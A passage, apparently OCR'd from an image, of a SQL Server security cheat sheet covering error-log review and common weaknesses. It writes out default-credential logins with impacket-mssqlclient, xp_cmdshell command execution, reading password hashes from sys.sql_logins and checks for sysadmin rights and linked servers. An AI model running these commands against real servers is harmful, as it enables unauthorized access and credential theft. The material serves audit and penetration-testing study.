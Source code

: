 ### Log Analysis
```sql
-- Read SQL Server error log
EXEC xp_readerrorlog;

-- Search for failed logins
EXEC xp_readerrorlog 0, 1, N'Login failed';

-- Check for privilege escalation attempts
EXEC xp_readerrorlog 0, 1, N'sysadmin';
```

---

## Common Vulnerabilities

### Weak Authentication
```bash
# VULNERABILITY: Empty SA password
impacket-mssqlclient sa@target
# Successful connection without password

# VULNERABILITY: Default credentials
impacket-mssqlclient sa:sa@target
impacket-mssqlclient sa:password@target
```

### Command Execution
```sql
-- VULNERABILITY: xp_cmdshell enabled
EXEC xp_cmdshell 'whoami';
-- Result: nt authority\system

-- VULNERABILITY: Excessive service privileges
EXEC xp_cmdshell 'whoami /priv';
-- Shows high privileges like SeDebugPrivilege
```

### Information Disclosure
```sql
-- VULNERABILITY: Exposed database contents
SELECT * FROM sys.databases;
SELECT * FROM information_schema.tables;

-- VULNERABILITY: Credential exposure
SELECT name, password_hash FROM sys.sql_logins;
```

### Privilege Escalation
```sql
-- VULNERABILITY: Service account with admin rights
SELECT IS_SRVROLEMEMBER('sysadmin');
-- Result: 1 (user is sysadmin)

-- VULNERABILITY: Trusted database links
SELECT * FROM sys.servers WHERE is_linked = 1;
```

---